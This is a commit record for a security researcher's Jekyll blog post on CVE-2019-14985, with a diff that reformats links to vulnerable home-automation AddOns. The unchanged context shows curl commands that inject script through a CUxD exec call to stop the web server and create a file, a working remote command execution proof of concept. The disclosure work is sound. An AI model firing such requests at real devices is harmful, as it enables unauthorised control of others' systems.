

Before and after one commit to psytester/psytester.github.io, a Jekyll site: the page built from _posts/hacking_and_pentests/CVEs/2019-08-12-CVE-2019-14985.md, in a window 1280 px wide. Shown: the whole page at 61% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2454 px from its top, so only the background shows below that; grey boxes are pictures that could not be loaded.

Commit message:
Update 2019-08-12-CVE-2019-14985.md

````diff
--- a/_posts/hacking_and_pentests/CVEs/2019-08-12-CVE-2019-14985.md
+++ b/_posts/hacking_and_pentests/CVEs/2019-08-12-CVE-2019-14985.md
@@ -60,7 +60,10 @@
 curl -X POST -i 'http://1.2.3.4/UriHasToEndWithPrefix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
 curl -X POST -i 'http://1.2.3.4/UriHasToEndWithPrefix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
 ```
-2. RCE with an AddOn providing unprotected exec.cgi script like ['XML-API' AddOn](https://github.com/jens-maus/XML-API/issues/29) published in [CVE-2019-14984](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14984) or other popular AddOns like [HM-Print](https://github.com/litti/hm-print/issues/4), [HM-Email](https://github.com/jens-maus/hm_email/issues/11) or [Script Parser](https://github.com/litti/scriptparser/issues/4):<br>
+2. RCE with an AddOn providing unprotected exec.cgi script like ['XML-API' AddOn](https://github.com/jens-maus/XML-API/issues/29) published in [CVE-2019-14984](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14984) or other popular AddOns like<br>
+[HM-Print](https://github.com/litti/hm-print/issues/4),
+<br>[HM-Email](https://github.com/jens-maus/hm_email/issues/11) or<br>
+[Script Parser](https://github.com/litti/scriptparser/issues/4):<br>
 
 
 ```
````
Also changed, not shown: other parts of _posts/hacking_and_pentests/CVEs/2019-08-12-CVE-2019-14985.md (+1 -1 lines).
